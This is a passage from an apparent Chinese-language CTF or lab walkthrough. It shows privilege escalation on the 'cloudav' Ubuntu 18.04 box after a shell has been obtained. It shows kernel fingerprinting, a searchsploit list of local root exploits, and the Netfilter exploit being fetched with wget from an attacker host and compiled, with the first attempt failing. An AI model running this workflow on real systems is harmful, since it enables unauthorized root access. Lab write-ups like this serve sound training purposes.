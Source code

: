 成功 Getshell

### 提权尝试

#### 内核提权

先无脑尝试内核提权，确认一下内核版本

```yacas
scanner@cloudav:~/cloudav_app$ uname -a 
uname -a
Linux cloudav 4.15.0-36-generic #39-Ubuntu SMP Mon Sep 24 16:19:09 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux

scanner@cloudav:~/cloudav_app$ lsb_release -a
lsb_release -a
No LSB modules are available.
Distributor ID: Ubuntu
Description:    Ubuntu 18.04.1 LTS
Release:        18.04
Codename:       bionic
```

照例进行 `searchsploit`：

```yacas
> searchsploit Linux 4.15
-------------------------------------------------------------- ---------------------------------
 Exploit Title                                                |  Path
-------------------------------------------------------------- ---------------------------------
Linux < 4.14.103 / < 4.19.25 - Out-of-Bounds Read and Write i | linux/dos/46477.txt
Linux < 4.16.9 / < 4.14.41 - 4-byte Infoleak via Uninitialize | linux/dos/44641.c
Linux < 4.20.14 - Virtual Address 0 is Mappable via Privilege | linux/dos/46502.txt
Linux Kernel (Solaris 10 / < 5.10 138888-01) - Local Privileg | solaris/local/15962.c
Linux Kernel 2.4/2.6 (RedHat Linux 9 / Fedora Core 4 < 11 / W | linux/local/9479.c
Linux Kernel 2.6.19 < 5.9 - 'Netfilter Local Privilege Escala | linux/local/50135.c
Linux Kernel 4.10 < 5.1.17 - 'PTRACE_TRACEME' pkexec Local Pr | linux/local/47163.c
Linux Kernel 4.15.x < 4.19.2 - 'map_write() CAP_SYS_ADMIN' Lo | linux/local/47164.sh
Linux Kernel 4.15.x < 4.19.2 - 'map_write() CAP_SYS_ADMIN' Lo | linux/local/47165.sh
Linux Kernel 4.15.x < 4.19.2 - 'map_write() CAP_SYS_ADMIN' Lo | linux/local/47166.sh
Linux Kernel 4.15.x < 4.19.2 - 'map_write() CAP_SYS_ADMIN' Lo | linux/local/47167.sh
Linux Kernel 4.8.0 UDEV < 232 - Local Privilege Escalation    | linux/local/41886.c
Linux Kernel < 4.15.4 - 'show_floppy' KASLR Address Leak      | linux/local/44325.c
Linux Kernel < 4.16.11 - 'ext4_read_inline_data()' Memory Cor | linux/dos/44832.txt
Linux Kernel < 4.17-rc1 - 'AF_LLC' Double Free                | linux/dos/44579.c
```

选择 `50135.c` ，发现失败

```yacas
scanner@cloudav:~/cloudav_app$ cd /tmp                   
cd /tmp
scanner@cloudav:/tmp$ wget 10.0.2.3:1145/50135.c
wget 10.0.2.3:1145/50135.c
--2025-10-22 06:58:53--  http://10.0.2.3:1145/50135.c
Connecting to 10.0.2.3:1145... connected.
HTTP request sent, awaiting response... 200 OK
Length: 23023 (22K) [text/x-csrc]
Saving to: ‘50135.c’

     0K .......... .......... ..                              100%  239K=0.09s

2025-10-22 06:58:53 (239 KB/s) - ‘50135.c’ saved [23023/23023]

scanner@cloudav:/tmp$ gcc 50135.c -o exploit                                                                                      
gcc 50135.c -o exploit
```